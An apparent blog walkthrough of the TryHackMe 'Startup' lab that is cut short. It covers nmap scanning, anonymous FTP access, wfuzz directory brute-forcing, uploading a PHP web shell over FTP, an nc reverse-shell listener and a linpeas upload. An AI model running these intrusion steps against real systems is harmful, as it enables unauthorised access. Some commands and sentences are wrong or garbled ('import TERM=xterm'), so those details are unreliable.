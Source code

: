```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

#### Add to hosts file

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
file is a simple text file that associates IP addresses with hostnames, one line per IP address.

#### Scan the ip in Nmap

    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap-full-scan.png" width="450"/>
</p>

From the output, we can see we have 3 ports open. FTP is running on port SSH runs on port 22, while HTTP runs on port 80. Now we know what ports are open and what services they are running.FTP login with username is anonymous and password is anonymous.

### Enumerating FTP service

> ftp startup.thm

<p align="left">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

In analyze of FTP service,  dir -a is used to list all files and folders, even the hidden ones. As we can see few files and we can read them looking at the permission on the left side, lets download them to our box.

> get important.jpg
>
> get notice.txt


<p align="left">
<img src="/assets/img/startup/ftp_file_download.png" width="350"/>
</p>

Here ftp directory check the directory for further steps.

<p align="left">
<img src="/assets/img/startup/ftp-dir-1.png" width="350"/>
</p>

There is nothing is see that.

So we have to look to web service.

Here, I decided to brute-force the directory using the wfuzz tool. I guess that's better than the gobuster tool.

<p align="left">
<img src="/assets/img/startup/home.png" width="350"/>
</p>

Check the robots.txt file on the website, but it's not there.

Here, I decided to brute-force the directory using the wfuzz tool.

> wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="left">
<img src="/assets/img/startup/wfuzz.png" width="350"/>
</p>


phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  
























